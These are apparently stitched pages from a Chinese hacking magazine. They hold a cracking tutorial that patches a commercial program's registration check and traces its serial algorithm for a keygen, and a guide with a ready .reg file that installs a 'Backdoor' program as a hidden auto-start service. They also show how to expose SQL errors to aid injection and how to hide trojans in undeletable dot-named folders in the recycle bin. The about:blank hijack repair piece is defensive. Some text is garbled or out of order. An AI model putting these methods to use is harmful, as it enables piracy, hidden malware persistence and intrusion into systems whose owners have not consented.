- 一个是用穷举法，找到密钥；
- 另一个方法是据已知的注册码与密钥的对应关系来找到密钥，这里就是据已知真码（机器码：Y2T2Y4WE；注册码：lordor9876543210）来到 004054C8 CALL crackme4，004022B0 处有 ECX 的地址的三位：36 46 6E（十六进制），此即为密钥，机器码与注册码运算后的值必须为这三位。

### 如何识别 twofish 算法

对于如何识别 twofish 算法，一般使用查找 S-box 的内置的固定串来确定，但本 crackme 是动态生成的，这个方法行不通。另一个方法就是根据 twofish 的加解密特点来判断，如加解密区块长度为 128 位，产生大量的子密钥。更准确的判断方法是了解 twofish 的算法。

## 推而广之，Twofish 实际应用

虽然 AES 最后选用 RIJNDAEL，但 twofish 的算法不失为一种非常优秀的加密算法。它的加密速度快、安全性高（最好用长密钥，不要像本例那样只用 3 位），更重要的是它是非专利的，可以完全免费使用。目前使用 twofish 作为注册算法的软件非常多，如 Visual Assist .NET 的新版，twofish 作为加解密算法的一个步骤出现，主要起到防止作出注册机。另外还有很多使用 blowfish 的软件都升级使用 twofish，使用 twofish 算法的软件将会越来越多。

> icefire 最近几天和 nuke 的朋友聊的时候，发现他们正在研究新的东西；可以直接用在网络安全上面，比如直接破解 administrator 的密码等。那一刻我才真正明白“网络安全是个整体”这句话的含义。唉，需要学习的东西太多了，大家一起努力吧！

# Crack 技术逐级进阶

icefire：本文从 crack 技术的初级阶段讲起，逐步深入地介绍了一些 crack 知识或经验。在引出本文之前，我想说的是请大家能正视 crack。据我所知，我认识的朋友和了解的 cracker，大部分都不是为了金钱而破解的，很多人只是把它当作自己的兴趣而已。所谓的 CCG、BCG 等破解组织是软件盗版的基地，更是无中生有。据我所知，每个破解组织的规章其中就严格规定不得和盗版集团发生任何联系。国外也有破解组织，而且水平比国内要高，为什么国外的软件能成功？这恐怕不仅仅是 crack 惹的祸，同时 crack 同样给我国的共享软件提供了巨大的能量。

- 难度等级：低
- 适合对象：软件逆向工程
- 前置知识：一些 Cracker 常用的工具、汇编知识、会查 MSDN

几乎所有的软件都是程序员辛勤劳动的结晶，作者为了保护自己利益，通常都采用了这样那样的方式来限制未付费用户的使用，只有你向作者付费后才能无限制地使用该软件。通常采用的主要手段有：软件注册、密码保护、磁盘保护、加密狗、光盘保护、网络校验等。Crack 所要做的就是不通过付费方式达到和付费用户一样自由使用软件的目的。我觉得可以认为这是逆向工程的初级阶段。通常软件的破解主要分两类：暴力破解和注册机破解。随着软件保护技术的发展，又出现了加壳保护技术。本文将逐渐地介绍这些内容，希望能对你有所帮助！

## 破解工具

正如做饭需要炊具一样，编程需要 Visual C++、Delphi 等编程工具；同样，如果你想学习破解也得准备一些常用工具。

- **动态调试工具**：SoftICE、OllyDbg、TRW2000 等；
- **静态分析工具**：IDA Pro、W32DASM、C32ASM，以及一些针对特定语言程序的反汇编工具；
- **脱壳工具**：Unaspack、Caspr、UPX、Unpecompact、ProcDump、PE-Scan 等；
- **其他工具及知识**：一定的汇编知识、MSDN 等。

至于工具的使用方法，网上有很多资料，这里不再赘述。

## Crack 起步——暴力破解

首先，什么是暴力破解呢？一般认为暴力破解，简称“爆破”，可以认为是破解技术的第一阶段。爆破相对比较简单，但是并不是每个软件的爆破都很简单。指的是在不能通过注册机方式正常破解程序，或者破解者功力不够时，通过直接修改欲破解程序的关键部分可执行代码，屏蔽或使软件的保护方式失效，从而达到破解软件目的的一种破解方式。

其次，什么情况下使用爆破解好呢？首先，如果你的解密知识有限，或者软件的加密算法十分复杂，超出你的分析能力；其次，随着网络的逐渐普及，网络校验的注册方式开始兴起，一般来说这时只能靠爆破来破解软件，因为您的数据并未被加入对方的数据库中，校验时必然失败；还有加密狗保护等。

最后，要想成功爆破一个软件需要哪些知识？第一，简单的汇编知识你得了解，例如 JZ 干什么的知道吗？第二，要会使用一些基本工具，例如 W32ASM 或 OllyDbg 以及 HIEW 等；第三，就是要找到所有需要爆破的地方，这一点通常是最难的，因为有的程序仅仅改一个地方是不能达到目的的。

下面通过《中华灯谜》作为例子来看看如何对程序进行暴力破解（这里，只介绍简单的爆破知识）。这里只是抛砖引玉的作用，希望通过这个例子能使你初步了解破解的基本知识。

一般来说，拿到一个软件，首先要做的是“知己知彼，百战不殆”。首先利用 fileinfo 等工具检测程序是否加壳，如果加壳的话一般需要脱壳（壳是什么？请看后文）；接下来检测一下软件是用什么语言编写的（常用工具有 FILEINFO、language2000 等）；然后运行一下程序，试着注册一下，看看当你注册失败时该软件的表现如何，能否为破解找出点蛛丝马迹，决定下一步破解步骤。例如如果你找不到注册码输入的地方，那么该软件很可能就是利用 keyfile 或者其他方法来加密的。接下来要做的就是根据软件的编写语言选择相应的调试分析工具。一般通用的静态分析利用 W32ASM 或者 IDA 等，对应于具体的语言分析工具有 VB smartcheck、wktvbde，DELPHI 和 BORLAND C 用 dede 等。这里我选择较为常用的 W32ASM 来分析。

当我们通过上面检测发现，该程序没有加壳，利用 DELPHI 编写，可以用 DEDE 进行反汇编。我们来到程序主界面试着注册一下，发现当输入错误的信息：订单号 1234，注册码 123456 时，程序会“提示注册码错误，请重新输入”。记下它，下面有用。接着打开 W32ASM 中文版，反汇编该程序的可执行文件 zhdm.exe。为什么这么做？因为你想破解它，首先你得知道对象是采用什么方法来判断你是否已经注册以及如何注册吧！我们打开 W32ASM 的“参考”菜单下的“串式数据参考”，你会发现很多字符串，耐心点看看有没有上面程序注册错误时出现的字符串。一般地你会找到，但是随着软件作者越来越狡猾，找到的可能性在降低。找到上面字符串后，双击该字符串，串回来到程序中出现该字符串位置的地方，一般这里就是程序执行时出现该串的地方。我们来到：

```asm
Possible StringData Ref. from Code Obj -> "注册码错误，请重新输入！"
00506E26  B8886F5000    mov eax, 00506F88
00506E2B  E8A833F3FF    call 0043A1D8
```

这时我们向上看，找找程序如何执行到这里的：

```asm
00506D96  E825DEFFFF    call 00404BC0
00506D9B  0F8585000000  jne 00506E26
```

很明显，当这个条件不成立时跳到 00506E26 注册失败。如果不跳走就会出现注册成功的信息。我们猜想这个跳转就是传说中关键的跳转，如果改成当上面的条件成立时跳走呢？那不就是当输入正确的注册码时，程序判断注册失败，而当你输入错误的注…注册码时，啊啊！这是我们的猜想，因为现在软件的加密可谓是绞尽脑汁。我们猜想是否正确，我们要通过实践来检验。

```asm
* Possible StringData Ref from Code Obj -> "注册成功，谢谢你的注册！"
00506DA1  B8EC6E5000    mov eax, 00506EEC
00506DA6  E82D34F3FF    call 0043A1D8
```

我们可以直接利用编辑工具来修改这个指令。这里建议先用动态调试工具 OllyDbg 来动态调试一下，看看你的猜想是否正确，然后再更改。通常在改跳转成功后，程序会将结果写在一个文件或者注册表中，来表示程序已经注册，这时你必须找到这个位置，然后将其恢复成未注册状态。我们用 OD 载入程序，我们再把 00506D96 处设置断点，程序断下后，将 506D9B 处的 jne 改为 je，可看见程序能够注册成功。继续单步可以发现程序将注册结果保存在系统目录 system32 下的 ilmColn_o_38.dll 文件中。我们可以找到这个文件删去，程序又回到未注册版。

对于跳转指令的修改，你最好熟练掌握这些常见的指令。这里有句口诀：“一条（跳）就死，九筒（90）就胡；一条（跳）就胡，一饼（EB）何候；要死（74）便要无（75），爸死（84）便爸无（85）。”以上仅介绍了爆破的一点基本知识，当然不可能一网打尽，所以有句话大家记住，“无他，唯手熟尔！”

## Crack 进阶——注册机

注册破解是通过对程序的跟踪获得正确的注册码、序列号、密码、CD KEY、钥匙文件等，能够通过软件“正版”用户方式注册软件；注册机破解是在注册破解的基础上通过研究原程序的加密算法，然后逆向恢复算法过程，并通过写程序的方式得到一个通用的注册机，这种方式下破解者已经达到和软件公司或作者相同的地位，不但具有“正版”用户注册的能力，更是和软件公司一样具有发布、许可他人“正常”注册的能力。到达这一阶段需要较多的经验和知识。具体而言，包括比较坚实的汇编语言功底、一定的程序编写经验、一定的密码学知识、对 Windows 程序一定的了解等。

对这阶段具体来说，具体步骤怎样呢？我想首先你拿到一个软件通过分析，必须找到程序加密算法的位置，即程序在什么地方计算注册码的，然后才是分析出注册码的计算过程。

对于初学者来讲，找到注册码计算的位置（即关键 call）是个坎。那么如何快速定位呢？笔者有一点小小的心得愿与大家共享。首先对一般加密不太好的程序，关键的 call 会在关键跳转上面不远的地方，

你可以在用 W32ASM 反汇编时向上找找，找到你怀疑的地方，记下来。然后利用 OD 动态调试，开始时在可疑的地方设置断点后不断利用 F8 单步多走几遍，调试时注意各个寄存器的变化情况，这样你会对程序的流程有一个大致的了解，然后再锁定目标。

其次，有些程序可能加密做得好一些，采用了很多伪装，这时你可以利用消息断点或者内存断点来跟踪。大家知道 Windows 是基于消息驱动方式的操作系统，当你按下鼠标或者击键时，就会传递一个消息，例如 ShowWindow 就是显示窗口函数，GetDlgItemText(A) 就是获取对话框文本函数。对于 DELPHI 程序，利用 DEDE 反汇编后，你可以根据窗体来设置断点。具体使用大家可以在实用中体会。这里我再利用上面的例子简单讲解一下如何找到关键算法位置和对算法进行分析。

我们输入帐号“1234”，注册码“987654”，在反汇编后向上找到 50606C 处，打开 OD，并且在 50606C 处设置断点。

```asm
00506D17  E8 AC25F0FF    CALL zhdm.
004092C8
```

这个函数将输入的帐号转换成十六进制，这里注意 EAX 寄存器：

```asm
00506D1C  B9 63000000    MOV ECX,63
将 0x63 赋给 ECX
00506D21  99             CDQ
00506D22  F7F9           IDIV ECX
整除指令 EAX/ECX，商存在 EAX 中，余数在 EDX 中
00506D24  8BC2           MOV EAX,EDX
赋值指令将余数作为下一个函数的参数
00506D26  8D95 64FFFFFF  LEA EDX,DWORD PTR SS:[EBP-9C]
00506D2C  E8 3325F0FF    CALL zhdm.
00409264
```

这里将上面的十六进制转化成十进制的字符串：

```asm
00506D31  FFB5 64FFFFFF  PUSH DWORD PTR SS:[EBP-9C]
00506D37  8D95 54FFFFFF  LEA EDX,DWORD PTR SS:[EBP-AC]
00506D3D  8B83 48040000  MOV EAX,DWORD PTR DS:[EBX+448]
00506D43  E8 9CAA2F0F    CALL zhdm.
00440FE4
00506D48  8B85 54FFFFFF  MOV EAX,DWORD PTR SS:[EBP-AC]
00506D4E  E8 7525F0FF    CALL zhdm.
004092C8
00506D53  8D95 58FFFFFF  LEA EDX,DWORD PTR SS:[EBP-A8]
00506D59  E8 2ADDF0FF    CALL zhdm.
00504A88
```

这个函数是个关键，由于篇幅关系这里不再写出过程，大家试着自己跟踪一下。如不明白请到网上论坛探讨！这里会得到一个字符串：

```asm
00506D5E  8B85 58FFFFFF  MOV EAX,DWORD PTR SS:[EBP-A8]
00506D64  E8 5F25F0FF    CALL zhdm.
004092C8
00506D69  8D95 5CFFFFFF  LEA EDX,DWORD PTR SS:[EBP-A4]
00506D6F  E8 F4DDF0FF    CALL zhdm.
00504B68
```

将上面的字符串再次经过变换得到一个新串 2，具体怎么改变请大家自己跟踪。

```asm
00506D74  FFB5 5CFFFFFF  PUSH DWORD PTR SS:[EBP-A4]
00506D7A  68 E06E5000    PUSH zhdm.00506EE0
00506EE0  ASCII "3"  这里有一个固定的字 3
00506D7F  8D85 68FFFFFF  LEA EAX,DWORD PTR SS:[EBP-98]
00506D85  BA 03000000    MOV EDX,3
00506D8A  E8 ADDDEFFF    CALL zhdm.00404B3C
将上面串 1、2、3 连接起来形成一个注册码
```

这里你能看见正确的注册码了，如果您想更进一步，那么上面的两个 call 你就必须搞明白：

```asm
00506D8F  8B95 68FFFFFF  MOV EDX,DWORD PTR SS:[EBP-98]
00506D95  58             POP EAX
至此计算注册码的函数进行完毕
```

总结一下：找到 50606C 后，可以多走几遍，初步了解各个函数大体起什么作用，然后对症下药。本程序关键在于 00506D59 和 00506D6F 这两个函数，你跟进后分析出它们的具体过程，然后用高级语言写出和它一样的算法，就可以写出完美的注册机了。

当你自己能通过分析找到算法时，恭喜你！你的破解水平又上升了一个台阶！

## Crack 高级篇——脱壳和逆向工程

首先什么是壳？我们可以从它的名字知道，壳就是加在可执行程序或者 dll 文件上的另一个程序，它专门负责保护软件不被非法修改或反编译。

它们一般都是先于程序运行，拿到控制权，然后完成它们保护软件的任务。

如果要想破解加了壳的程序，首先要做的是脱壳。脱壳有自动脱壳和手动脱壳两种。对于很多常见的壳，很多自动脱壳工具例如 procdump 等等，它们可以帮你快速地脱掉壳，但是随着壳技术的逐渐发展，很多壳需要手动脱。

随着你破解技术的提高，会发现你必须掌握脱壳技术。现在壳的种类很多，按照加壳软件的目的和作用，可分为两类：压缩和保护。

这里的压缩不同于 ZIP 的概念，压缩程序这类壳主要目的是减小程序体积，例如 ASPack、UPX 等；保护程序用了很多反脱壳反破解的技术，给 exe 加上了一层保护膜。对于不同的壳，由于其实现方法不同，其脱壳方法也是不一样的，这里我不再举例说明，大家可以到看雪论坛或者各个破解组织的论坛找到相关资料。

我想破解一个软件并不是最终目的，如果你爱上了破解，我想不是它带给你多少经济利益，而在于你对技术的热爱和追求。这时你应该试着掌握软件的逆向工程。拿常用的 QQ 来说，一般 QQ 是不会显示好友 IP 的，是很多高手通过逆向工程实现了这个功能，你应该猜到逆向工程是干什么的了！

# 编后记

> 我也曾经处在初学者的位置上，深知对于初学者而言，想找到一篇带领自己入门的文章有多难。写作时我本着这样的思想，完成了这篇文章。我很想您能通过这篇文章对破解有点了解。但是写作过程中发现的确想把所有的都谈到是不太可能的，能力也不容许。如果大家想对 CRACK 有深入的了解和学习，我建议大家到网上的公开论坛上多走走，多向高手请教！勤奋＋执着＝成功！最后本文所使用软件仅供技术交流，若你想使用请向作者购买，谢谢！

Socket 现在的木马后门大多采用服务的方式在系统中隐藏和运行，普通使用者根本找不到它们的踪迹。的确，好的编程思维写出来的伪装成服务的后门是不容易被查杀的，那对新手不懂编程的来说，怎么去完成这样的隐藏呢？……


# 我的木马我来藏

# 手工添加系统服务

◎ 文／图 Darkne2s [Nuke Group]

现在很多的木马、后门、蠕虫病毒都是通过修改注册表中的 RUN 键值来实现自启动，这种启动模式不是很隐蔽，稍微懂点安全的人，一般发现电脑被黑，都会查看 RUN 键值，于是系统服务便成为了一种相对隐蔽的自启动模式，比如冲击波杀手就采用系统服务来自启动病毒程序。

现在添加系统服务的工具很多，最典型的就是 netservice，但是我们这里讲的是手工添加系统服务，所以工具的使用不在本文的讨论范围之内。Windows 里的很多东西都是跟注册表息息相关的，系统服务也不例外，系统服务跟以下的注册表几个项目相关：

松了一一这里同样需要注意的是注册表文件里的 ImagePath 的数值类型必须是 HEX（16 进制），可以拿 WinHex 来把程序的绝对路径转换成 16 进制的，每一个数值用逗号隔开，比如我的 ImagePath 键值是 `C:\winnt\nukegroup.exe`，那就应该转换成：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Services
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Services
```

```text
63, 3A, 5C, 77, 69, 6E, 6E,
74, 5C, 6E, 75, 6B, 65, 2E, 65,
78, 65
```

我们完全可以找到在系统服务中已注册的服务的键值来依样画葫芦；在以上任何注册表列中添加一个新项，名字是你想要添加系统服务的名字，比如 Backdoor，在 BACKDOOR 项下新建一个字符串，数值名称 DisplayName，数值数据为要添加服务的名称 Backdoor。下面列出一个表，会直观一些。

打开记事本，敲入以下内容：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SRVTEST]
"Type"=dword:00000010
"Start"=dword:00000002
"ErrorControl"=dword:00000001
"ImagePath"=hex(2):63,3A,5C,77,69,6E,6E,74,5C,6E,75,6B,65,2E,65,78,65
"DisplayName"="SRVTEST"
"ObjectName"="LocalSystem"
"Description"="系统服务测试"
```

| 名称 | 类型 | 数据 | 备注 |
|---|---|---|---|
| DisplayName | REG_SZ | 想要添加服务的名称 | 想要添加服务的名称 |
| Description | REG_SZ | 服务的描述 | 服务的描述 |
| ImagePath | REG_EXPAND_SZ | 程序的路径 | 程序的路径 |
| Start | REG_DWORD | 0,2,3,4 | 2 代表自动启动，3 代表手动启动服务，4 代表禁用服务，0 代表系统对底层设备驱动（一般不需要这个） |
| ErrorControl | REG_DWORD | 1 |  |
| Type | REG_DWORD | 10 or 20 | 一般应用程序都是 10，其他的对应 20 |
| ObjectName | REG_SZ | LocalSystem | 显示本地登录 |

把以上信息保存为 addsrv.reg，我们就可以依靠命令来导入注册表，从而达到添加系统服务的目的。我们在命令控制台输入 `regedit /s addsrv.reg`，等机器重新启动，这个服务就被成功添加了——但很不幸的是，我在真正实验的时候遇到了困难。

注意：在 XP/2003 下可以完全手工来添加 REG_EXPAND_SZ 类型，但是在 WIN2000 下却不可以，于是在 WIN2000 下我们只好自己写一个 REG 来直接注册系统服务，这样 WIN2000 下添加系统也能很轻松。

难，ImagePath 的数值是乱码（图 1）。


图 1

怎么想也不明白，还是把乱码修改成绝对路径吧。如果直接把 REG 信息写成这样：

```reg
"ImagePath"=hex(2):c:\WINNT\NUKEGROUP.EXE
```

其他的键值都可以添加，这个键值就不可以了？总之我们可以先添加乱码的 ImagePath，然后再修改成 `C:\winnt\nukegroup.exe`，这样也是可能的（图 2）。


图 2

以上是 Windows 2000 手工添加系统服务的方法，对于 Windows 98，注册表结构是不一样的，但是 Windows 98 仍然可以通过注册表来实现添加系统服务，而且还要更简单一些。

在项目“HKLM／SOFTWARE／Microsoft／WindowsCurrentVersion／RunServices”下添加一个新字符串数值。比如，如果程序的名字叫做“BACKDOOR”，就建立一个名为“BACKDOOR”的字符串数值，然后在数据域中输入执行程序的完整路径。

手工添加一个系统服务就这么简单，手工删除系统服务也是一个道理。通过注册表来实现，这里就不多说了。为方便广大读者深入了解系统服务的各方面，我推荐以下文章，希望有所帮助：

> http://www.microsoft.com/china/community/program/originalarticles/TechDoc/WinXPStart.mspx

http://sinbad.zhoubin.com/read-html/board_Win&num=89

（建议此文献给 Paopao……）

# 编后：

我猜想出现乱码的问题应该是 IMAGEPATH 的值是 UNICODE 字符串而不是 16 进制，自己后来也一直没时间实验，所以说不上结果是如何……这些大家都可以自己去动手实验一下，这样才能有收获！同样，欢迎你将你的心得发给我们！

接 67 页


图 12

看来 Word 2003 把“test..”文件夹看成是“test”文件夹了，这也算是一个有趣的小插曲吧。而如果 test 文件夹存在，且“test..”和 test 文件夹都是空的，而“test..”文件夹中有文件，则用 Word 2003 打开“test..”文件夹下的文件时会弹出一个如图所示的对话框（图 13），从而无法打开该文件。


图 13

如果 test 文件夹下有同名文件存在，则可以用 Word 2003 打开“test..”和“test.”下的同名文件。

# 删除带点文件夹

最后，再来说说如何删除这种特殊的文件夹。要删除这种特殊的文件夹，必须到命令提示符窗口下，输入 `rd test..\ /s` 命令可以删除“test.”文件夹，输入 `rd test...\ /s` 命令可以删除“test..”文件夹。加上“/S”参数可以删除指定目录及其下所有子目录和文件，主要用于删除目录树。如果再加上“/Q”参数，则可以进入安静模式，此时带上“/S”来删除目录树则不要求确认。

好了，关于带有“.”的特殊文件夹的探讨就先说到这里，本文是在 Windows XP 下测试的，相信在 Windows 2000 下也应有同样的现象。如果你有更多更神奇的发现请告诉大家——独乐不如众人乐！

Socket，一天，netsoar 兄弟发消息问我 about:blank 页面保存在什么地方？我有些纳闷，这个东西不是默认的 IE 空白吗？真有这个页面？从来没有看到过，于是全盘搜索，并没有发现蛛丝马迹，那 about:blank 究竟是怎么回事呢？我们听听 netsoar 碰到的问题吧，或许从中可以找到答案……

# “about:blank”并不“空白”

文／图 netsoar

大家都知道默认情况下 IE 的 about:blank 返回给我们的是一片空白，谁知一个朋友打电话过来说他 IE 浏览器的 about:blank 页面变成了一个导向 XXX 网站的搜索页面，原以为他在开玩笑，谁知过去一看 about:blank 页真的不空白，如图 1 所示。

> socket：HijackThis 能够扫描注册表和硬盘上的特定文件，找到一些恶意程序“劫持”浏览器的入口，该软件和另外一款软件 CWShredder 已经放在光盘中，大家可以分别研究一下。


很明显下面这行是关键：

```text
02 - BHO: Windows Resources - {2D38A51A-23C9-48A1-A33C-48675AA2B494} - C:\WINNT\winres.dll
```

看来 IE 的 about:blank 不空白还真是可能的，估计这是被劫持后的效果！比较好玩，我们来试着分析一下。

首先我们单击“右键”查看一下这个 about:blank 页的源代码，很简单，就两个 HTML 标记：`<html></html>`，它和正常的 about:blank 没什么不同，在图片及链接上点右键也不能够查看到 URL 的属性，在 IE 中能够返回却又看不到 HTML 源代码？什么东西啊，挺神秘的——突然想起能够在网页中运行的 Applet 和 ActiveX，在微软的虚拟机的作用下，Applet 和 ActiveX 似乎具有这样的特性，看来可能是 Applet 或者 ActiveX 在作怪。

用 PrcView 来查看一下进程与 DLL 的关联情况，发现当运行 IE 时会启动 winres.dll，说明 winres.dll 已经与 IE 关联。我们用 CWShredder 来修复 IE，关闭所有 IE 浏览器，运行点击 CWShredder，点击“FIX”按钮便可以按提示自动修复所发现问题，运行完毕便可以将被劫持的 IE 修复了，之后我们再打上 MSJVM 补丁，重启计算机，就可以防止再次被劫持了。

某些网站通过诱骗浏览者点击确定按钮，然后在暗地里将 *.DLL、*.OCX、*.CAB 送到浏览者本机，然后利用 Microsoft VM 进行解析，对 IE 进行劫持，达到偷天换日的效果。要防止 IE 被劫持有两种办法，一是打上 816093 Microsoft 虚拟机（Microsoft VM）安全补丁，第二就是卸载 Microsoft VM，安装 Sun Java 虚拟机。

找一个 HijackThis 来察看一下与浏览器关联的情况，看看是不是关联中有问题。HijackThis 扫描得到的结果显示如图 2 所示：


> Socket，文章很简单，只是个小小的恢复技巧，但是如果真是这样的话我们就不会考虑发表这个文章了，聪明的读者朋友们，你们想到了吗？——这个小技术在入侵的时候很管用哦！嘿嘿，我可什么都没说啊！期待你的好思路！

## 让IE返回错误信息

◎文/图 os_far

每次我们的杂志发行后不久，都会收到很多读者的来信和QQ消息，他们有的和我们一起讨论问题，也对一些文章中涉及到的技术提出了疑问。譬如，有几个读者看了我们杂志2004年第3期之后，觉得《一盒烟+N个脑细胞=成功取得服务器权限》一文中有的地方走了一些弯路，而且还专门为此写出了如下的一篇分析文章，说出了自己的看法，非常感谢这样的读者支持我们，技术本身就是需要讨论和共同研究的！我们期待你的文章哦！

前几天看到2004年《黑客防线》第3期中styxfox所写的《一盒烟+N个脑细胞=成功取得服务器权限》一文，学到了不少脚本攻击技巧，并深受启发。该文中提到了臭要饭的所写的小软件可以看到服务器返回的数据，以便于进行进一步的注入，同时文中也提到了利用HTML标记`<iframe>`爆数据库路径的方法，我试了一下的确非常实用。

从这两种方法可以看出，既然通过本地软件和iframe可以爆出我们本来看不到的返回的错误提示信息，而这两种方法都没有也不可能对远程服务器的设置作任何修改，因此，我们可以认为，服务器肯定是已经将这些错误信息返回到了本地，只不过是浏览器没有显示而已。为了验证这一点，我觉得有必要用Ethereal抓包看看具体的返回包内容。于是，找到一个存在注入漏洞但是无法返回详细错误信息的网站后，打开Ethereal进行抓包，然后我们提交相应URL，页面返回了“Internet Server Error”错误信息，但是IE没有给出具体的出错信息。之后，我们再来看看Ethereal中该包的具体内容吧，如图1所示：


图1

在图中，点击第754条包记录中的Data后，我们发现最下方显示了具体的数据信息，可以看出，其中就包含了SQL Server返回的详细提示信息。

可见，所有的错误提示信息内容的确是已经返回到了本地。既然如此，我们是否有方法让IE自动将这些详细错误信息显示出来呢？答案当然是肯定的。

我们点击IE浏览器的菜单“工具→Internet选项”，然后选择“高级”，拉动下面“设置”栏中的滚动条，我们会发现一个“显示友好HTTP错误信息”的选项，默认情况下它是被选中的（前面有勾），如图2所示。


图2

何谓“友好HTTP错误信息”呢？先不管它，去掉前面的勾，重新打开一个IE窗口提交刚才的URL，发现了什么呢？是不是详细的提示错误全部显示出来了呢？！现在我们应该明白了何谓“友好HTTP错误信息”了吧？！但是，对于我们这些注入菜鸟来说，它是何等地不友好啊！

曾经有好多次机会摆在我们面前，我们都因此没有把握住，或者因此而浪费了更多的时间、走了更长的弯路。不过，我们相信现在发现还不算迟。至少以后，我们进行注入就更加方便了。

## WinXP下秘密文件的另类隐藏

● 文／图 一飞冲天

蝴蝶：新一期黑防又和大家见面了，真想大家啊，今天给大家带来个小巧的东西，讲讲Windows XP的一个鲜为人知的秘密！——利用Windows XP的特殊文件夹来保护自己的秘密文件！这下装木马方便了！噢——请安静！

要想在Windows下建立一个让他人无法访问的文件夹，大家一般都采用加密软件来完成这个任务。其实，在Windows XP下无需额外的软件，利用系统自身的特性就可以建立一个“加密”的文件夹，一般人无法直接查看到里面的内容，用来隐藏自己的秘密文件如木马、黑客攻击软件等非常不错，在试验的过程中还能体验到自己动手发现系统奥秘的独特乐趣，一起来哦！

## 特殊文件夹的制作方法

首先，单击“开始”菜单的“运行”，在出现的“运行”对话框的“打开”栏中输入cmd并回车，打开命令提示符窗口，转到G盘，然后输入命令：

```text
G:\md test..\
```

> **注意**
>
> 在“\”前面是两个“.”，回车之后就在G盘建立了一个名为“test.”的文件夹。

现在打开资源管理器，试试在资源管理器中能否打开“test.”文件夹，怎么样？无法打开吧！会出现一个对话框提示我们无法打开该文件夹，如图1所示。


再试试在命令提示符窗口下是否可以进入“test.”文件夹。输入`cd test.`命令，回车后返回如下提示信息：系统找不到指定的路径。再试试`cd test..\`命令，还是不行。最后让我们再试试输入`cd test`命令，仍然无法进入该文件夹！看来这个“test.”文件夹是无法进入了！让我们再试试复制或移动该文件夹，出现一个对话框提示我们：“无法复制文件：无法读源文件或磁盘。”再来试试删除“test.”文件夹，无法直接删除，出现如图2所示对话框！


蝴蝶：我们之所以无法在Windows下直接建立“test.”文件夹，是因为在Windows下建立的文件夹其名字中最后一个字符是“.”。Windows会自动忽略掉该字符，所以无法在Windows下直接建立“test.”文件夹。

现在请大家在命令提示符窗口中输入`md test`命令，建立test文件夹。此时再用鼠标单击test.文件夹，发现可以进入该文件夹了！在“地址”栏中可以看到我们的确进入“test.”文件夹了（图3）。


在命令行下输入`cd test..\`命令，回车之后发现我们进入的实际上是test文件夹（图4）！是不是很有趣？接下来，拷贝几个文件或文件夹到“test.”文件夹中……


图4

有趣的事情又发生了：在test文件夹中也出现了同样的文件或文件夹！就是说你往“test.”文件夹中拷贝或删除任何文件，在“test”文件夹中会做出相应的反应，反之亦然！很有意思吧？其他Windows下的文件夹有这个特性吗？呵呵！点击“test.”或test文件夹中的文件或文件夹试试，都可以打开！再进一步，如果我们把test文件夹也删除，则“test.”文件夹就会变成空文件夹，我们又无法直接进入其中了。

其实，如果我们不主动建立test文件夹，而是直接拷贝文件到“test.”文件夹中，猜猜会怎么样？在G盘中会自动出现一个test文件夹，里面就有我们刚刚拷贝到“test.”文件夹中的文件或文件夹！此时就可以随意进入“test.”文件夹了。这样看来test文件夹简直就是“test.”文件夹的影子，如幽灵一般说出现就出现！而一旦我们删除test文件夹，“test.”文件夹就关闭了和外界联系的一切，把自己又“自闭”起来，很有意思吧？

有趣的事情还没有完，先把test文件夹删除，然后在命令提示符窗口下用`md test...\`命令再建立一个“test..”文件夹，复制任意一个文件或文件夹到“test..”文件夹中，在G盘根目录下就会出现一个名为test的新文件夹。现在，无论是“test..”文件夹还是“test.”文件夹，我们都可以通过点击它而进入该文件夹。有意思的是，只有“test..”文件夹里面有我们刚刚拷贝进去的文件，其他两个文件夹里面都没有我们复制的内容在内。用鼠标右击“test..”文件夹选择“属性”，发现其“大小”、“占用空间”和“包含”属性都不为空，而“test.”和test文件夹的上述属性内容都为空！另外，当我们删除test文件夹之后，用鼠标右击“test..”和“test.”文件夹选择“属性”，可以发现它们都没有“安全”标签（图5），并且“大小”、“占用空间”和“包含”、“修改时间”等属性都为空（实际上里面有文件存在），而如果test文件夹存在，则“test..”和“test.”文件夹都有“安全”标签。


图5

让我们继续，假设我们没有删除test文件夹，接下来进入命令提示符窗口下，发现用`cd test...\`和`cd test..\`命令进入的其实都是test文件夹，用`dir`命令可以发现每一个文件夹中都是空的！真是很奇怪，在Windows窗口下“test..”文件夹中明明有文件存在，在命令提示符下竟然不见了！

更奇怪的是，如果我们在命令提示符窗口用`rd test..\`命令删除“test.”文件夹，会显示“目录不是空的”（注意：我们刚刚在Windows下已经查看过了，“test.”文件夹里面什么文件也没有啊！），因此无法删除该文件夹！真的很奇怪！

下面我们把test文件夹删除，现在又有一个新发现：在Windows窗口下“test..”文件夹仍旧可以进入，而“test.”文件夹还是无法进入，“test..”文件夹中还有我们刚刚拷贝的文件和文件夹。而在命令提示符窗口下，这两个文件夹都无法进入了！由此可以证实笔者的推测是对的，因为test文件夹不存在了，所以无法进入“test..”和“test.”文件夹。

更有趣的事情还在后面，“test..”文件夹中的文件我们可以直接打开运行，而“test.”文件夹下的子目录下的文件就无法直接打开。比如说在“test..”文件夹下有个testfolder文件夹，testfolder文件夹下有个test.txt文件，该文件就无法点击打开，会弹出一个对话框提示我们：`G:\test..\testfolder\test.txt`目录名无效（图6）。


现在，我们等于是建立了一个“加密”文件夹testfolder，在命令提示符窗口下无法访问该文件夹，在Windows窗口下虽然可以进入该文件夹，但无法直接查看其中的文件。也就是说，只要没有test文件夹存在，这些文件就是安全的、不可访问的！所以我们可以用这个办法来加密文件，再把它们设置为“隐藏”属性就更安全了。

如果你想更隐蔽地隐藏文件，可以采用下面的办法：进入`C:\recycled`（即回收站）目录下，在里面用刚刚提到的方法建立“test..”和testfolder文件夹，并把要隐藏的文件和文件夹移动到testfolder文件夹中，把这些文件和testfolder文件夹的属性设置为“隐藏”，这样在Windows就看不到这些文件了，并且清空回收站也依然还存在！

接下来再修改一下注册表，让文件更彻底地隐藏起来。在“开始”菜单的“运行”中输入`Regedit`，打开注册表编辑器，展开到：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL`分支，修改DWORD值`CheckedValue`的键值为0（默认为1，如果没有该DWORD值可以新建），关闭注册表编辑器，按F5键刷新桌面。

